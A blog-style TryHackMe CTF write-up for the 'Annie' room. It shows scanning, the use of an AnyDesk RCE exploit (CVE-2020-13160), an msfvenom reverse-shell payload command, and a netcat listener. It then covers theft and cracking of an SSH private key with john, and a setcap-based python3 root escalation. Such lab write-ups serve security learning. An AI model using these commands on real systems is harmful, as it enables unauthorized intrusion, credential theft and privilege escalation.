 ```yaml
---
title: "TryHackMe - Annie CTF writeup"
date: 2022-09-16 12:31:00 +0300
image: /assets/img/Posts/annie.png
categories: [Tryhackme, Easy]
tags: [cronjobs, sudo, web, gobuster, revshell, ssh-keygen, GTFObins, ssh]
---
```


| Room       | [annie](https://tryhackme.com/room/annie)       |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Medium                                                     |

# Let's get started
## Nmap scan
First, i started with an nmap scan as usual. I found that several ports are open, but i will focus my interest in ports `22` and `7070` because they have what i want.

![image](/assets/img/Posts/annie/nmap.webp)

Going further and scanning for port `7070` specifically. I find that it is running `realserver`. I also realized that it is running `AnyDesk` (a remote access software) from an ssl leak.

![image](/assets/img/Posts/annie/7070.webp)

I tried looking for an AnyDesk exploit that might be available and guess what! google never fails, i a remote code execution with a [CVE-2020–13160](https://www.exploit-db.com/exploits/49613) for `AnyDesk version 5.5.2`. because i don’t know the version of the `AnyDesk` yet, i’ll have to time it anyway.

![image](/assets/img/Posts/annie/rce.webp)

I copied the exploit to my local machine and there are couple of things we are required to change; `ip` and the `shellcode`.

Port `50001`? i did not find this in my nmap scan, but doing another scan but this time round with a UDP scan `-sU` flag, i found it. going on with the changes on the exploit.

>ip: changed it to the remote machine ip(the target)
{: .prompt-info }

![image](/assets/img/Posts/annie/port50001.webp)

For the shellcode we generate our own using the msfvenom command rendered in the exploit’s comment and copy the shellcode and replace the one given in the exploit

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your ip] LPORT=1234 -b “\x00\x25\x26” -f python -v shellcode
```
![image](/assets/img/Posts/annie/shellcode.webp)

the one i generated in my terminal
![image](/assets/img/Posts/annie/shellcode1.webp)
the one i pasted in the exploit

After doing those changes i was good to go. I ran the exploit, mind you, the exploit was created with python2. when you try python3 it will flag concatenation errors so;
`python2 exploit.py`

and now i started listen on the port in entered in the payload `nc -nlvp 1234` and the reverse shell will be up in 5 seconds

![image](/assets/img/Posts/annie/revshell.webp)

and yes i had the shell

![image](/assets/img/Posts/annie/revshell1.webp)

Then i thought of upgrading the shell but i remembered!!! i have ssh right? how about i grab the id_rsa key and login as annie? , long way? Nope just having fun…lets try that. copy the key from annie’s home directory `/home/annie/.ssh/id_rsa` changing its mode to `600`it and trying to login, i found that it is password protected.

![image](/assets/img/Posts/annie/rsa-protected.webp)

what now? worry not, we will use john the ripper to crack the password. but first we convert the ssh to what john can understand `ssh2john id_rsa > annie_id` and crack the passphrase using john command `john annie_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt`

![image](/assets/img/Posts/annie/pass.webp)

we are good now, lets go and login to the ssh account. first change the mode of the id_rsa file to protected `chmod 600 id_rsa` and the proceed to login by typing `ssh -i id_rsa annie@<target_ip>`
and we are in.

![image](/assets/img/Posts/annie/annishell.webp)

# User flag
just in the home directory. cat it and submit the flag
`cat user.txt`

![image](/assets/img/Posts/annie/userflag.webp)

# Root flag

to get the root flag we first need to escalate our privileges. in linux machines what i first think of is sudo -l and unfortunately we don’t have annie’s password, so what? linpeas? yes but it was kinda slow in running so i aborted the process. uurgh!…ooh there is one i did not try, SUID! so use find to check them.

```bash
find / -perm -4000 2>/dev/null`
```
![image](/assets/img/Posts/annie/suid.webp)

setcap!! this seems interesting..we can set capabilities to python and use that to escalate to root..how? copy `python3` to `tmp` dir

```bash
cp /usr/bin/python3 /tmp
cd /tmp
```
then set the capability
```bash
/sbin/setcap cap_setuid+ep python3
```
and then finally run the python command to escalate your privileges to the root and get your root flag, always in /root dir

```bash
./python3 -c ‘import os;os.setuid(0);os.system(“/bin/bash”)’
```

![image](/assets/img/Posts/annie/rootflag.webp)

i hope you enjoyed and liked the write up. you can find me in [twitter](https://twitter.com/pr0rat). any questions or compliments direct them to my dm.

thank you so much!!